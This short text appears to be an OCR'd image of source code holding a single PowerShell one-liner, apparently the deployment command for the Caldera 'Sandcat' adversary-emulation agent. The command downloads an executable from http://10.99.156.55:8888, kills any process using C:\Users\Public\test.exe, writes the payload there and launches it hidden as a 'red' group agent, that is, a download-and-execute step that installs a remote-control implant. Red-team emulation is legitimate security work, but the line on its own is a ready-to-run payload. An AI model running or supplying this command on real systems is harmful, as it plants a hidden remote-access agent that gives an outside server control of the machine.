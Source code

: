 $server="http://10.99.156.55:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\test.exe"} | stop-process -f;rm -force "C:\Users\Public\test.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\test.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\test.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
